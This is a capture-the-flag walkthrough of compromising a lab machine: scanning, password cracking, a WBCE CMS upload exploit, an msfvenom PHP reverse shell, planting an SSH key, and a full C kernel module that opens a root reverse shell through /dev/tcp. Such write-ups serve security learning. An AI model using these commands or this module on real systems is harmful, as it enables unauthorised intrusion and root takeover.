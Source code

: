 

we start by scanning the network with nmap -sV ip 

after scanning the network we can see there is SSH port (22) and http port (80) which the one interesting us,
when we load to the main page we have a loading telling us that site is in maintnance so we need to find.

Lets scan the differents paths : python3 dirsearch.py -u IP:PORT 

we have diferent directorys, by navigating to it one by one we fond suspecious zip file that wa can download : 

Lets try top open it ! 

Oh it ask us for a password, hopefuly we can use some tools to try cracking the zip password like : 


Bingo, when we got the password we got this file,

it tells that admin password is : but it encrypted in md5 hash so we need to decrypt it, we will first try to see online tools if they already have this password hash stocked in their data base, if not we will try to crack it !


Bingo again, we have admin password, lets connect into the admin interface

now we arrive at an interface of WBCE CMS 1.6.2, when googling it we can see there is an exploit by injecting .inc files
.inc files are used in PHP to include code. If the server treats them like .php, uploading one can lead to executing code on the server
https://www.exploit-db.com/exploits/52039

lets create our own .inc reverse shell with msfvenom

msfvenom -p php/reverse_php LHOST=YOUR_MACHINE_IP LPORT=4444 -f raw > shell.inc

now we put our listener : nc -lvnp 4444

after that we upload it in /media/ double click on it and we got the shell !

executing commands like whoami, tell us we are www-data the webserver user, 

navigating to /home/ we found an user, listing his directory content we see a flag.txt BUT we cannot open it due to our permission, but something is interesting, we have full rights on the .ssh folder, navigating there we see .authorized_key a file storing the keys autorized to connect to the user via ssh without a password ! since we have the full rights on the file 
we gonna go back on our machine and create an ssh key

ssh-keygen -t rsa -b 4096 -f mykey
![image](https://github.com/user-attachments/assets/1f034acc-53a9-4642-86d3-65b072c6d5b2)


open mykey.pub and copy all the content.

now go back to your listener shell and do echo "SSH_PUB_KEY" > /home/user/.ssh/authorized_key

and now we can try to connect to the user ssh key to connect to the user : ssh -i mykey user@IP


Bingo, we have user shell, we can cat the flag file with cat flag.txt


now we need the root file, obviously we dont have root access or it bee too easy, by executing sudo -l we can see that we can execute .ko file
.ko files are kernel modules — basically code we can plug directly into the Linux kernel. Since we can load one as sudo, we can write a malicious module that gives us root access when it gets loaded. Game over
.ko files are developed in C, and only in C so we gonna develope (or get in github) a reverse shell in C, the objective here is to put a listener on another port in our kali machine, when we run our .ko file since it gonna run with root it gonna open reverse shell in root

in the ssh host create the file cyberavengers.c and copy past your code, mine was : 

```ccyberavengers.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "IP"   // Remplacez par votre IP
#define REMOTE_PORT "8888"      // Remplacez par votre port

static int reverse_shell_thread(void *data)
{
    /* Commande reverse shell utilisant bash et /dev/tcp */
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    /* On démarre un thread qui exécutera le reverse shell */
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Module kernel minimaliste pour reverse shell (à usage restreint)");
```

create Makefile to compile the c file : 
obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean


after that put another listener on our 8888 port : 

nc -lvnp 8888 

run the sudo command : /sbin/insmod cyberavengers.ko

and bingo ! you should have a reverse shell in our netcat with root user !

the flag is on /root/flag.txt !

Have a great day ! 



